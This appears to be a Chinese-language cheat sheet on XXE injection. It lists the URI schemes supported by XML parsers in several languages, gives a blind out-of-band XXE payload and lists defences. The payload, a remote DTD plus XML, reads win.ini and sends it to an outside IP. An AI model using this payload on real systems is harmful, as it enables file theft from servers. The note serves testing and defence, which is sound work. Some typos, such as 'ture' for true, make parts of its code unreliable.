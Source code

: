 ### 默认协议

| libxml2 | php            | java    | .net  |
| ------- | -------------- | ------- | ----- |
| file    | file           | http    | file  |
| http    | http           | https   | http  |
| ftp     | ftp            | ftp     | https |
|         | php            | file    | ftp   |
|         | compress.zlib  | jar     |       |
|         | compress.bzip2 | netdoc  |       |
|         | data           | mailto  |       |
|         | glob           | goher * |       |
|         | phar           |         |       |

### php扩展协议

| scheme                                                       | extension required |
| ------------------------------------------------------------ | ------------------ |
| https<br />ftps                                              | openssl            |
| zip                                                          | zip                |
| ssh2.shell<br />ssh2.exec<br />ssh2.sftp<br />ssh2.tunnel<br />ssh2.scp | ssh2               |
| rar                                                          | rar                |
| ogg                                                          | oggvorbis          |
| expect                                                       | expect             |

## 检测方式-无回显

将test.dtd放在远程服务器上，远程加载dtd文件:`<!ENTITY % file SYSTEM "file:///c:/windows/win.ini"><!ENTITY % all "<!ENTITY send SYSTEM 'http://169.254.115.76/?%file;'>">%all;`

```xml-dtd
<?xml version="1.0"?><!DOCTYPE data SYSTEM "http://169.254.115.76/test.dtd"><name>&send;</name>
```

提交后，观察远程服务器上的访问日志是否存在测试目标的请求，win.ini文件内容以get提交的方式返回到远程服务器上

## 防御方法

- 对于php，常见的xml解析方法DOMDocument、SimpleXML、XMLReader都是基于expact解析器，默认不载入DTD，无漏洞。可以在php解析xml文件前使用libxml_disable_entity_loader(ture)禁止加载外部实体，并使用libxml_use_internal_errors()禁止报错
- 对于Java，设置DocumentBuilderFactory dbf=DocumentBuilderFactory.newInstance();dbf.setExpandEntityReferences(false);
- 对用户输入的xml数据过滤
